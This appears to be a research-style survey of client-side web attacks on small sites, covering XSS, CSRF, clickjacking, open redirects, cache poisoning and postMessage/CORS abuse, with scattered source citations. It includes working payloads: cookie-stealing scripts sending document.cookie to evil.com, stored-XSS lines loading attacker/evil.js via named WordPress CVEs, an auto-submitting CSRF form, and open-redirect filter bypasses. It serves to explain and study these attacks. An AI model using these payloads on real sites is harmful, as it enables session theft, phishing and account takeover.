 Cross-Site Scripting (XSS)

Reflected XSS (non-persistent): Attacker crafts a malicious link or form that reflects input back in the page. For example, a URL like http://example.com/page?name=<script>alert(1)</script> triggers an alert in vulnerable sites
pentest-tools.com
. Common payloads include <script>alert("XSS")</script> or <img src=x onerror=alert(1)>
owasp.org
hackerone.com
. Successful reflected XSS can be used to steal cookies (document.cookie), redirect users, or load malware. For instance, <script>new Image().src="https://evil.com/steal?c="+document.cookie</script> sends the victim’s cookies to the attacker
hackerone.com
. Attackers may also inject fake forms (e.g. a bogus login box) via XSS to phish credentials
pentest-tools.com
hackerone.com
.

Stored XSS (persistent): Malicious script is saved on the site (e.g. in a comment, profile or plugin data) and served to other users. Real-world examples include WordPress plugins with injectable fields. For example, the WP Statistics plugin (CVE-2024-2194) allowed a payload in the utm_id parameter to be stored:

utm_id="><script src="https://attacker/evil.js"></script>

This script executes whenever an admin views the stats page
fastly.com
. Similarly, the WP Meta SEO plugin (CVE-2023-6961) stored unsanitized input from the HTTP Referer header. An attacker sending

Referer: <script src="https://attacker/evil.js"></script>

to a 404-generating URL caused the script to be saved in the database and executed in the administrator’s browser later
fastly.com
. Another example is LiteSpeed Cache (≤5.7.0.1): it stored nameservers and \_msg fields without sanitization, allowing payloads like result[_msg]=<script src="https://attacker/evil.js"></script>
fastly.com
. Stored XSS can lead to complete user account takeover (via cookie/session theft) or content tampering.

DOM-Based XSS: The vulnerability occurs entirely in the browser DOM. Common sources are window.location, location.hash, or document.referrer, passed to dangerous sinks (eval(), innerHTML, document.write(), etc.). For example, a script like:

<script>
  var stuff = unescape(location.hash.substr(1));
  document.write("Input: "+ stuff);
</script>

is vulnerable if no sanitization is done. An attacker can use a URL like

http://target.com/page#<script>alert('XSS')</script>

to execute code in the victim’s browser
akimbocore.com
akimbocore.com
. As Akimbo Core demonstrates, even adding the payload after # (URL fragment) triggers execution via location.hash
akimbocore.com
akimbocore.com
. Many DOM XSS vectors exist: untrusted input assigned to innerHTML, document.write(), form fields, eval(), setTimeout(), etc., using any client-side data (URL, cookies, postMessage, etc.). For instance, jQuery apps sometimes use selectors with location.hash, enabling payloads via the fragment
portswigger.net
akimbocore.com
. An attacker must simply lure a user to click a specially crafted link.

XSS Payload Variations: Beyond <script>, attackers use many contexts: event handlers and URI schemes. E.g. <body onload=alert('XSS')> or <b onmouseover=alert('XSS')>click</b> can execute scripts
owasp.org
. Image tags are common: <img src=x onerror=alert(document.cookie)>
owasp.org
. SVG and META tags can carry JavaScript too. Encoded or malformed script tags (e.g. using &#x3C;script>) or javascript: URLs (like <a href="javascript:...">) evade filters. Advanced payloads include console/code injections, fake login screens, keyloggers (document.onkeypress=new Image()...
hackerone.com
), and CSRF via XSS (using fetch() or XMLHttpRequest to post actions
pentest-tools.com
). All payloads aim to hijack sessions, steal data, or redirect users.

Cookie Theft via XSS: If cookies aren’t HttpOnly, XSS can steal them. A classic payload is:

<script>new Image().src="https://evil.com/steal?cookie="+document.cookie;</script>

This sends document.cookie to the attacker’s server
hackerone.com
. PortSwigger also illustrates using a hidden image to exfiltrate cookies
hackerone.com
. Once the session cookie is captured, the attacker can hijack the user’s session. Even if HttpOnly is set, older browsers or certain exploitation techniques (like abusing TRACE methods) can sometimes reveal cookie data, but XSS remains the most direct method
hackerone.com
pentest-tools.com
.

Cross-Site Request Forgery (CSRF)

Basic CSRF: Attacker tricks a logged-in user’s browser into sending a forged request (GET/POST) to the target site. Commonly done by hosting a malicious page that auto-submits a hidden form or uses JavaScript. For example, using an invisible iframe and form:

<iframe name="csrf-frame" style="display:none"></iframe>
<form method="POST" target="csrf-frame" action="https://victim.site/action" id="csrf-form">
  <input type="hidden" name="param" value="dangerous"/>
</form>
<script>document.getElementById("csrf-form").submit();</script>

This silently submits the form as the victim’s credentials
stackoverflow.com
. OWASP notes that any state-changing action (like form submission) without a per-request token is vulnerable. Even GET requests (like GET /logout) can be CSRF’d by an image or script tag. Modern examples include using fetch() or AJAX from a malicious site to perform actions in the victim’s session
pentest-tools.com
. For instance, the Pentest-Tools demo used an injected <script>fetch('http://vulnerable.site/api', {method:'POST', credentials:'include', body:'data=x'})</script> to forge a login action
pentest-tools.com
.

Login & Logout CSRF: If the login or logout endpoints lack CSRF protection, attackers can force a user to log in as the attacker (login CSRF) or log out (logout CSRF). Login CSRF, detailed by Invicti, involves an attacker’s page submitting a form with the attacker’s credentials to the site’s login URL
invicti.com
. The victim’s browser stores the attacker’s session cookie, so subsequent actions appear under the attacker’s account. This can pre-set the attacker as the “user” or capture the victim’s input (e.g. a phishing login form in the attacker’s account
invicti.com
). Conversely, a logout CSRF simply logs the victim out. Both rely on invisible forms or scripts auto-submitting to the target URL
stackoverflow.com
invicti.com
.

CSRF for Privilege Escalation / Chaining: Complex exploits chain multiple CSRF steps or combine with other flaws. A notable case is CVE-2023-47020 (NCR Terminal Handler 1.5.1), where “multiple CSRF chaining…allows privileges to be escalated… through a crafted request involving user account creation and adding the user to an administrator group.” Here an attacker automated a series of CSRF requests (creating a user, then promoting to admin) to gain admin rights
isomer-user-content.by.gov.sg
. Likewise, CSRF can inject XSS or malicious data if forms lack tokens: for example, CVE-2023-6499 in lasTunes WordPress plugin had “no CSRF check… missing sanitisation…allowing attackers to make logged in admin add Stored XSS payloads via a CSRF attack.”
nvd.nist.gov
. In essence, any chainable action (multi-step forms) can be exploited via CSRF if no tokens are used.

CSRF Bypasses & Variations: Attackers may exploit weaknesses in CSRF defenses. For example, certain defaults or mis-implementations (like binding CSRF token to cookies) can be bypassed by tricks (e.g. empty cookie values)
isomer-user-content.by.gov.sg
. Login CSRF often leverages SameSite cookie issues or hidden forms. CSRF can be delivered via IMG/SCRIPT tags (for GET requests) or via hidden auto-submitted POST forms
stackoverflow.com
. Tools like Burp’s CSRF PoC generator automate attack creation. In practice, every form or state-changing endpoint on a simple site should be assumed vulnerable to these techniques unless a proper nonce/token is verified.

Clickjacking / UI Redressing

Basic Clickjacking: Attacker hosts a benign-looking page (the decoy) and overlays the target site in a transparent or disguised iframe. For instance, the decoy page may include:

<style>
  #target { position: relative; width: 200px; height: 100px; opacity:0.00001; z-index:2; }
  #decoy  { position: absolute;  width: 200px; height: 100px; z-index:1; }
</style>
<div id="decoy">Click the button to win a prize!</div>
<iframe id="target" src="https://vulnerable-website.com"></iframe>

Here the target page’s buttons or links are exactly aligned under the decoy’s elements. When the user clicks “win a prize,” they actually click the hidden button on the target site. PortSwigger illustrates using CSS layers and opacity to overlap the iframe
portswigger.net
. Because the iframe is transparent (opacity≈0) and stacked above (higher z-index), all clicks go to the hidden target page
portswigger.net
. This can trick users into toggling settings, confirming transactions, or even granting permissions. Crucially, clickjacking works even if anti-CSRF tokens exist (since it’s a normal user click), and it only requires that the target site allows framing (no X-Frame-Options or CSP frame-ancestors restriction).

Advanced UI Redressing: Variations include double-framing to bypass framebusting JavaScript, dragging/drop attacks, and nested iframes. Attackers may also use disguised cursors or cursor-hijacking to confuse the user (e.g. moving the actual click target). Another vector is “Likejacking” where Facebook “Like” buttons are hidden under enticing content. Any click action (login, button, checkbox) can be hijacked. Tools and libraries exist to detect clickjacking; defenses include X-Frame-Options: SAMEORIGIN or Content-Security-Policy: frame-ancestors.

UI Phishing with Overlays: Related to clickjacking, attackers sometimes use similar HTML/CSS tricks to display fake login forms or consent prompts. For example, an XSS payload could create an absolute-positioned <div> mimicking the site’s login box, then forward entered credentials to the attacker. While not the classic invisible-iframe attack, it still relies on manipulating the user interface on the client side to deceive the victim. (See DOM XSS section for examples of injected fake login HTML
akimbocore.com
.)

iFrame Embedding & Referrer Abuse

iFrame Embedding Attacks: Even without clickjacking, if the site lacks X-Frame-Options, attackers can embed it in frames for other abuses. For instance, an attacker could place the site’s login or forms in an iframe on a malicious site with messaging or branding to trick users. If combined with a subtle redirect or CSS, they can coerce users into interacting with the hidden frame. While overlapping frames (clickjacking) is one extreme, even a visible but contextually misframed site can confuse users.

Referer Header / Embedding Attack: In some reported cases, attackers use the HTTP Referer (referrer) header as an input vector. For example, one WordPress plugin stored the raw Referer header in its database. An attacker sending a request with a malicious referer (e.g. via an <a> or image tag linking to a 404 page on the site) injected <script> into the plugin’s stored data
fastly.com
. This is a form of stored XSS but notable as a client-visible vector: the attacker often tricks a user into visiting a specially crafted URL (e.g. on a forum or email) so that the site records the malicious referer. Attackers may also embed malicious URLs in third-party content to cause cache poisoning (see below).

Clickjacking to Bypass CSRF: OWASP notes that clickjacking can bypass CSRF protections by inducing a genuine click in the hidden frame
owasp.org
. For example, a site that uses framebusting scripts may only break out of a single frame, so an attacker can nest the site two iframes deep to nullify the framebust
portswigger.net
. Also, mobile versions of sites often lack defenses, so an attacker might lure a user to the mobile page in a frame
owasp.org
.

Open Redirects

Phishing via Open Redirect: A common vulnerability is an unchecked redirect parameter (like redirect=... or url=...) that lets an attacker send victims to arbitrary sites. For example, a link like https://site.com/login?next=https://evil.com might redirect the user to an attacker site after login. Attackers exploit this to make phishing URLs look trustworthy (the domain is real). Evasive payloads include omitting the protocol, using @, or extra slashes. Varppi’s examples show how to bypass naive filters:

If a filter checks that the redirect “starts with” the site, adding @ lets the attacker domain appear:

https://site.com/login?return=https://site.com@attacker.com  
// Interpreted by the browser as https://attacker.com (username “site.com”)

Payload: https://site.com@attacker.com
medium.com
.

If “http://” is blacklisted, adding an extra slash can work:

https:///attacker.com

(Note the three slashes) which browsers interpret as https://attacker.com
medium.com
.

Query tricks: https://attacker.com/?foo=site.com (where the filter only checks for site.com inside)
medium.com
.
These allow an open-redirect parameter to send victims to an arbitrary domain while passing naive checks.

Abuse in OAuth/CSRF Attacks: Open redirects are especially dangerous when chained with other attacks. For example, an attacker can trick a user to log in on a malicious site that immediately redirects them back through a real site’s login, capturing tokens or auto-submitting forms (CSRF on login)
medium.com
invicti.com
. They can also append malicious scripts or tracking tokens in the redirect URL.

Cookies & Session Hijacking

Cookie Theft & Session Hijacking: As noted, XSS is the primary method to steal cookies. If a site’s session cookie lacks HttpOnly, injected JavaScript can read it (e.g. via document.cookie) and send it to the attacker
hackerone.com
pentest-tools.com
. Once the attacker has the session ID, they can impersonate the user. Even without XSS, if the site is served over HTTP (no HTTPS), network attackers can sniff cookies. Attackers may also attempt to overwrite cookies via script injection (e.g. setting document.cookie) or via subdomain control (if the attacker controls a subdomain, they might set cookies for the parent domain). Modern browsers mitigate some of this (e.g. cookie prefixes, Secure/HttpOnly flags), but careless setups on small sites leave sessions exposed.

Session Fixation: Some sites accept session IDs via URL or parameters. An attacker could set up a link that forces the victim’s browser to use a session ID known to the attacker. For example: http://site.com/page?PHPSESSID=attackerSession. If the site doesn’t regenerate session IDs on login, the attacker could then hijack the victim’s session. Though less common on simple sites, it remains a client-visible risk.

Cookie Poisoning / Tampering: If user input is ever reflected in cookies (for example, an insecure “Set-Cookie” header echoing user data), attackers can manipulate cookies by injecting into forms or parameters. While not typical in static sites, dynamic pages sometimes do insecure cookie handling.

Web Cache Poisoning

Injecting Malicious Cache Content: Many simple sites use caching (CDN, reverse proxy, or client caching) to improve performance. An attacker can exploit this by tricking the cache into storing a harmful response. For instance, if a site echoes a query parameter into the page and is cached by URL, an attacker could append a payload to a query string (?utm_source=<script>...) and ensure the response is cached. Subsequent visitors would get the stored malicious response, effectively spreading XSS or other payloads systemically
portswigger.net
. PortSwigger notes that “a poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, and open redirection”
portswigger.net
. Typical techniques involve manipulating request headers (e.g. adding innocuous but cache-affecting headers, or abusing Vary/Accept headers) to insert payloads. On a small site, attackers might use query parameters (even unused ones) to create separate cache entries. If the site doesn’t properly sanitize inputs before including them in responses (even HTTP headers or error pages), an attacker can cause scripts or HTML to be cached. For example, a static blog that includes <h1>Search results for “{q}”</h1> and caches the search page could be poisoned by sending a crafted search term containing a <script> tag.

Cache Key Manipulation: Attacker may craft requests that change the cache key. For instance, adding a ? or # fragment, or certain cookies, can confuse the cache logic. In older servers, missing normalization led to “cache key poisoning” where e.g. //example.com/page and /page were cached differently. Poisoning can also be achieved by signing in and out with unusual query strings so that the cached content leaks sensitive data. In short, any unsanitized reflected value in a page that is cached is a vector for poisoning.

Cross-Origin & Messaging Attacks

postMessage Abuse (DOM XSS): HTML5 window.postMessage() allows cross-origin communication. If a page uses postMessage but fails to verify the sender’s origin or the content of event.data, an attacker can send arbitrary data into the page. For example, in a demo scenario, a popup window blindly accepted messages from any origin. An attacker opened their own window (e.g. evilrewards.html), cloned the message handler, and sent a malicious payload via postMessage
yeswehack.com
. The target window executed it, causing an XSS. YesWeHack’s write-up notes that with missing origin checks, “the message can be sent from any origin…an attacker can leverage this to send malicious messages”
yeswehack.com
. Thus, an attacker’s site can use otherWindow.postMessage(maliciousData, "\*") to hit vulnerable listeners. In practice, any unvalidated use of addEventListener("message") is exploitable.

CORS Misconfiguration: If the site’s API or endpoints use permissive CORS policies (e.g. Access-Control-Allow-Origin: \* or reflecting request Origin without validation), an attacker can read sensitive data via AJAX from their own malicious site. For example, a script on evil.com can do fetch("https://target.com/api/user", {credentials:"include"}) and, if CORS allows it, read the victim’s private data (like profile info). Overly broad CORS is a client-side risk: it lets any origin use a victim’s cookies to access data. This is often used in conjunction with credentialed requests to break SOP.

DNS Rebinding (client-side SSrf): Though more about network, a static or small site might be tricked by DNS rebinding: if an attacker can make the user’s browser resolve the site’s domain to an internal IP, they can cause requests (via JavaScript or hidden elements) to internal network resources on behalf of the site origin. This leverages client-side trust (same origin) to hit internal services.

History/Content Sniffing: Using CSS or JS, attackers can check a user’s browsing history (via :visited styles) or guess open tabs, though modern browsers have largely patched these. Relatedly, a hidden iframe or WebSocket could infer state.

Fingerprinting/Tracking: While not “exploiting the site” per se, client-side scripts can fingerprint visitors (using canvas, audio, font enumeration) to track or deanonymize them. This violates privacy: for instance, drawing hidden canvas images and measuring rendering differences. It’s not a break-in technique, but it is an attack on user privacy via the browser.

Miscellaneous HTML/Browser Attacks

Hidden/Form Field Manipulation: Any form field (including hidden ones) or URL parameter can be tampered with by the user. For instance, a product page with <input type=hidden name=price value=100> can be modified by an attacker to change the price. Similarly, sequential IDs (e.g. /view.php?id=123) can be altered to access others’ data (though that’s an IDOR, partially server-side). On the client side, attackers might try parameter pollution (e.g. sending ?id=1&id=2) to confuse the server or cache.

HTML/CSS Injection: If input is embedded in HTML (even without script), attackers can inject tags. For example, an attacker might break out of a tag context by injecting "> to add new elements or attributes. CSS injection (e.g. style attributes) could be used to overlay content or hide elements. In extreme cases, CSS alone can exfiltrate data (e.g. sensitive attribute values) via url() fetches, although modern CSP and limitations make this hard.

Autocomplete/Autofill Abuse: A malicious form (e.g. injected via XSS) can trick browsers into filling credentials or tokens. If a site auto-populates a field based on URL/query, an attacker link could embed a victim’s token in a query string to be captured.

Data URIs and File Schemes: Some browsers allow file:// or data: URIs in certain contexts. An attacker might try to exploit this (e.g., loading a local file into an iframe or as an image) if filters are misapplied.

Browser Extensions: Some extensions inject scripts into pages or listen to them. Malicious extensions (or breaking a benign extension) can exfiltrate page data or modify behavior. This is more client-side malware than site vulnerability, but relevant for threat modeling.

SSL Stripping / Mixed Content: If a site is reachable over HTTP, a man-in-the-middle attacker can strip HTTPS or inject scripts into the page. Modern browsers deprecate active mixed content, but if a static site loads any http resource, that channel can be hijacked. Also, adding <meta http-equiv="refresh"> or redirects via HTTP can be used as simple exploits if HTTPS is not enforced.

Legacy Features: In older or poorly configured clients, features like XSS filtering (IE’s XSS Auditor), WebSockets, or BOSH (XMPP over HTTP) might be misused. For example, an attacker might try TRACE/XST (cross-site tracing) to steal HTTP-only cookies if TRACE is enabled
owasp.org
.

User Interface Tricking: Beyond clickjacking, attackers can exploit browser UI by stealing focus, opening unexpected dialogs (window.alert, confirm), or spamming popup windows. They may use navigator.share(), clipboard APIs, or WebUSB/WebBluetooth APIs to prompt sensitive actions if available.
